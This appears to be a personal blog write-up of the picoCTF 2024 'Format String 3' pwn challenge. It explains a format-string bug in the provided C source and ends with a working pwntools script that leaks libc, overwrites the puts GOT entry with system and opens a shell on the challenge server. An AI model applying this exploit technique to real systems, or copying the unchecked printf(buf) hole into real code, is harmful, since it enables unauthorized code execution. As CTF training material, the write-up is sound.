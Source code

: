 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 3 
date: '2024-05-03'
tags: ['pwn', 'fmt', 'got-overwrite', 'picoctf']
draft: false
summary: Overwriting GOT by exploiting the Format String Bug to make a system call for a shell. My first GOT overwrite solve.
---
```


## Challenge Description

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-1.png)

## Solution

Following files were provided:

```
format-string-3
format-string-3.c
libc.so.6
ld-linux-x86-64.so.2
```

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism.

Source code provided to us:

```c:format-string-3.c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
```

The most interesting part in this code is:

```c
	puts(normal_string);
```

At the end of the main function, the parameter passed to the `puts` function (`normal_string`) contains the content "/bin/sh". If we can change this `puts` function into a system call, we can spawn a shell. This can be achieved by overwriting entries in the Global Offset Table (GOT), which is a table inside the binary that stores the memory addresses of different library calls. Let's take a look at it:

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-2.png)

To overwrite GOT entry, we need to find the offset of our input string on the stack, offset of `setvbuf` from the libc base to calculate address of libc base (as the setvbuf is given). 

First, lets find out the starting index, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

Here I can see that my offset is `38`:

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-3.png)

Now, as the address of `setvbuf` is given, we only need to calcluate the address of libc base. For that, I need to know the offset of setvbuf from the libc base. It can be found using `objdump` on the binary:

```bash:objdump-command
objdump -T ./libc.so.6 | grep "setvbuf"
```

![Screenshot](/static/writeups/picoCTF/pwn/format-string-3/fmt3-4.png)

This is how libc base address will be calculated:

```python
libc.address = <leaked_setvbuf_address> - 0x000000000007a3f0 
```

For creating the payload, I took help from a Guide on **Format String Bug** written by [TheFlash2k](https://www.theflash2k.me/about).

He has also explain how to overwrite entries on the GOT. **[[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#overwriting-entries-on-the-global-offset-table)]**

So the final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

exe = "./format-string-3"
elf = context.binary = ELF(exe)
libc = ELF("./libc.so.6")

#io = process()
io = remote("rhea.picoctf.net", 52286)

if args.GDB: gdb.attach(io, "b *main+127") # gdb attachment

start = 38

io.recvuntil(b'setvbuf in libc: ')
leak = int(io.recvline().strip(), 16)
print("setvbuf @ %#x" % leak)

libc.address = leak - 0x000000000007a3f0 
print("libc @ %#x" % libc.address)

payload = fmtstr_payload(start, {elf.sym.got.puts: libc.sym.system})

io.sendline(payload)
io.interactive()
```

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-3/fmt3-flag.png)

> *That’s it for today’s blog, take Care* 😃